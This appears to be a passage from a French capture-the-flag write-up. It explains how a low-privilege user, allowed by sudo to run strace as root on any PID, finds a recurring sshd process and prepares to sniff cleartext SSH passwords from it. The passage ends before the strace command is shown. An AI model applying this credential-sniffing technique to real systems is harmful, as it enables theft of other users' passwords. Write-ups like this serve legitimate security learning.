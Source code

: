 Pour cette deuxième étape nous avons un indice... apparament ssh laisse toujours des traces...

On pourrait penser à des fichiers de connexion comme une clé privé qu'il pourrait falloir trouver, mais en éxécutant `sudo -l` on s'aperçoit que nous avons le droit d'éxecuter ça:

```bash
gwen@21d5ef4e5b54:~$ sudo -l
Matching Defaults entries for gwen on 21d5ef4e5b54:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwen may run the following commands on 21d5ef4e5b54:
    (ALL) NOPASSWD: /usr/bin/strace -p 0
    (ALL) NOPASSWD: /usr/bin/strace -p [1-9]
    (ALL) NOPASSWD: /usr/bin/strace -p [1-9][0-9]
    (ALL) NOPASSWD: /usr/bin/strace -p [1-9][0-9][0-9]
    (ALL) NOPASSWD: /usr/bin/strace -p [1-9][0-9][0-9][0-9]
    (ALL) NOPASSWD: /usr/bin/strace -p [1-9][0-9][0-9][0-9][0-9]
```

Ceci concorde avec notre indice qui nous dit de faire attention aux traces ssh

en éxecutant `ps aux` pour afficher les processus (car l'option `-p` de`strace` nous oblige à l'utiliser sur un pid), GTFO bins ne nous servira pas cette fois ;)

```bash
gwen@21d5ef4e5b54:~$ ps aux

USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
...SNIP...
gwen         563  0.0  0.0   4000  2880 pts/0    S    17:31   0:00 bash
root         665  0.0  0.0  14468  6624 ?        Ss   17:37   0:00 sshd: du [priv]
sshd         666  0.0  0.0  13820  4484 ?        S    17:37   0:00 sshd: du [net]
gwen         667  0.0  0.0   7640  2592 pts/0    R+   17:37   0:00 ps aux
```

L'un d'entre eux nous intéressent tout particulièrement: le 665

Mais si on réexecute `ps aux` un peut après, il n'a plus le même numéro... bizarre, bizarre...

```bash
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
...SNIP...
root         732  0.0  0.0  14468  6912 ?        Ss   17:40   0:00 sshd: du [priv]
...SNIP...
```

Il éxiste une technique qui permet à un attaquant de sniffer les mots de passes (en clair) des gens qui se connectent en ssh et en utilisant `strace` en plus ! Voyons ce que celà donne...

Nous allons attendre la nouvelle aparition de ce processus récupérer le PID et éxecuter strace.

```bash
gwen@21d5ef4e5b54:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
...SNIP...
root         833  0.0  0.0  14468  6912 ?        Ss   17:45   0:00 sshd: du [priv]
sshd         834  0.0  0.0  13820  4484 ?        S    17:45   0:00 sshd: du [net]
gwen         835  0.0  0.0   7640  2016 pts/0    R+   17:46   0:00 ps aux
```
